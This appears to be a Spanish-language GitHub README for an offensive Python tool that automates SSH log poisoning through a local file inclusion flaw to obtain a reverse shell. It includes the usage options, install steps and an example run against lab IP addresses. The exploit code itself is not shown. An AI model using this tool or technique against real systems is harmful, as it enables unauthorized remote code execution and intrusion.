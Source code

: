 # Log Poisoning SSH → Automated Reverse Shell

[Herramienta](<autopoisonSSH.py>) escrita en **Python** que permite obtener una **Reverse Shell** de forma automatizada mediante el envenenamiento de los logs relacionados con **SSH**, como **auth.log** o **btmp**. Para lograrlo, es necesario contar con una vulnerabilidad de Inclusión Local de Archivos (**LFI** - Local File Inclusion) o de Lectura Arbitraria de Archivos (Arbitrary File Read), lo que permite acceder y manipular dichos registros.



Las opciones disponibles son las siguientes:

```
usage: autoposionSSH.py [-h] -u TARGET_URL -pm TARGET_PARAM -t-ip TARGET_IP -h-ip HOST_IP [-p TARGET_PORT] [-p-ssh TARGET_SSH_PORT] [-l LISTEN_PORT]

☠️ SSH Log Poisoning with LFI → Automated Reverse Shell ☠️

ej: python3 autopoison.py -u http://172.17.0.2/vuln.php -pm file -t-ip 172.17.0.1 -h-ip 172.17.0.2

options:
  -h, --help                                 show this help message and exit
  -u, --target-url          TARGET_URL       Target web url with PHP vulnerable file - ej: http://172.17.0.2/vuln.php
  -pm, --target-param       TARGET_PARAM     Target parameter with LFI capability - ej: file
  -t-ip, --target-ip        TARGET_IP        Target IP - ej: 172.17.0.2
  -h-ip, --host-ip          HOST_IP          Host IP - ej: 172.17.0.1
   
  -p, --target-port         TARGET_PORT      Target http port                                                         (default =   80)
  -p-ssh, --target-ssh-port TARGET_SSH_PORT  Target ssh port                                                          (default =   22)
  -l, --listen-port         LISTEN_PORT      Listen port                                                              (default = 4444)
```

---
## ¿Por que usar este Proyecto?

En el caso de que queramos explotar un **Log Poisoning** de la manera tradicional nos encontraremos con el inconveniente que vemos en la captura de pantalla por lo que con el uso de este script evitaremos dicho incovenintente gracias a la librería **paramiko** de **python**.

![Pasted image 20240806161520](https://github.com/user-attachments/assets/73c86309-aaa0-442f-afe7-33b87c10b374)

---
## Descarga

Nos clonamos el repositorio de la siguiente forma:
```bash
git clone https://github.com/Trr0r/autopoisonSSH
cd autopoisonSSH
```

Instalamos las librerías necesarias gracias a **pip3**:
```bash
pip3 install -r requirements.txt
```

---
## Uso

En primer lugar debemos detecar la ruta donde se acontecede el **LFI**:

![Pasted image 20240806161403](https://github.com/user-attachments/assets/9238bfd1-c0f2-4eef-abbf-6729aa0457ca)

En segundo y último lugar ejecutaremos el script pasandole los parámetros necesatarios tal y como vemos acontinuación:

```shell
python3 autopoisonSSH.py -u http://172.17.0.2/vuln.php -pm file -t-ip 172.17.0.1 -h-ip 172.17.0.2
```

![Pasted image 20241226190954](https://github.com/user-attachments/assets/756a9fed-e7e5-4718-95a6-3975a1e77ca8)


---
### Advertencia legal

> [!WARNING]
> Este software está destinado solo para uso personal y debe utilizarse únicamente en entornos controlados y con autorización previa. El empleo de esta herramienta en sistemas o redes sin la debida autorización puede ser ilegal y contravenir políticas de seguridad. El desarrollador no se hace responsable de daños, pérdidas o consecuencias resultantes de su uso inapropiado o no autorizado. Antes de utilizar esta herramienta, asegúrate de cumplir con todas las leyes y regulaciones locales pertinentes.
